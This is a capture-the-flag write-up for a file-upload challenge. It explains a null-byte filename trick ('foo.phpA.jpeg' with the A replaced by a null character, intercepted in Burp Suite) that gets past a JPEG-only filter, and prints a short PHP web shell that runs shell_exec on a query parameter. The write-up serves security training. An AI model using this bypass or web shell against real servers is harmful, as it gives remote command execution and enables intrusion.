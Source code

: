 # File Upload

## Description

This site only accepts .jpeg files as uploads... or does it? Find a way to upload a different file type and hack into the server's filesystem to find the flag!

Category: Intermediate

## Hint

What character usually indicates the end of a string? Remember: file names are just strings!

## Flag

not that far...

## Write-Up

Will update as challenge progresses...
Using burp suite, intercept the request for upload of file foo.phpA.jpeg - change the A to a null char and the upload will work. You can put in a php file such as

	<?php
	$c = $_GET['c'];
	$output = shell_exec($c);
	echo "<pre>$output</pre>";
	?>
	
and gain access to the shell.